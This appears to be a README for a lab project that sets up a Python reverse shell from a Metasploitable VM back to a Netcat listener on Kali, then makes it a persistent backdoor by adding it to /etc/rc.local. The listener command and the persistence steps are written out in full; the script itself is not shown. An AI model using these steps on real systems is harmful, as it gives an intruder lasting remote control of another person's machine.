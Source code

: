 # Reverse-Shell
Write, set up, and execute a reverse shell in Python on Kali Linux and Metasploitable VM's, and automate this process creating a persistent backdoor.

!!Make sure that Both VM's can communicate with eachother on a secure network!!

On Kali, start a Netcat listener on port 7777: nc -lvnp 7777

This tells Netcat to listen verbosely on port 7777 and not to close the connection.

On Metasploitable machine, create a Python script: sudo nano reverse_shell.py.

Write or paste the committed code in this file; save and exit the editor.

Run "python reverse_shell.py" 

A connection should be established on Kali's Netcat listener, providing an interactive shell to the Metasploitable VM.

How to automate this process:

Open the rc.local file: sudo nano /etc/rc.local

Before the exit 0 line, add: python /path/to/your/reverse_shell.py &

In my case: python /home/msfadmin/yannos/reverse_shell.py &

The "&" makes sure it runs in the background.

Make the script executable: sudo chmod +x /path/to/your/reverse_shell.py

In my case: sudo chmod +x /home/msfadmin/yannos/reverse_shell.py

Make sure rc.local is executable: sudo chmod +x /etc/rc.local

Reboot and start the listener on Kali.

The shell should automatically establish on the listener upon reboot of Metasploitable VM.
